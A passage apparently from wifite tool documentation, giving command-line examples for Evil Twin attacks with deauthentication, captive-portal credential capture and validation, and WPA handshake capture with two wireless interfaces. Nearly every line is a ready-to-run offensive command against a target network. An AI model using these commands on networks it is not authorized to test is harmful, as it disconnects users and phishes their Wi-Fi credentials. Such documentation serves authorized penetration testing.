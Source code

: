 ### Evil Twin with Custom Deauth Settings

```bash
# Increase deauth packet count
sudo wifite --dual-interface --eviltwin --deauth-count 10

# Set deauth interval
sudo wifite --dual-interface --eviltwin --deauth-interval 5

# Disable deauth (wait for natural connections)
sudo wifite --dual-interface --eviltwin --no-deauth
```

### Evil Twin with Credential Validation

```bash
# Enable real-time credential validation (default)
sudo wifite --dual-interface --eviltwin

# Disable credential validation (faster, less reliable)
sudo wifite --dual-interface --eviltwin --no-validate

# Set validation timeout
sudo wifite --dual-interface --eviltwin --validate-timeout 30
```

### Complete Evil Twin Example

```bash
# Full-featured Evil Twin attack with dual interfaces
sudo wifite --dual-interface \
            --eviltwin \
            -b AA:BB:CC:DD:EE:FF \
            --portal-template netgear \
            --deauth-count 5 \
            --validate-timeout 30 \
            -v
```

## WPA with Dual Interfaces

WPA handshake capture is more reliable with dual interfaces.

### Basic WPA Attack

```bash
# Automatic dual interface WPA
sudo wifite --dual-interface --wpa

# Manual interface WPA
sudo wifite --interface-primary wlan0 --interface-secondary wlan1 --wpa
```
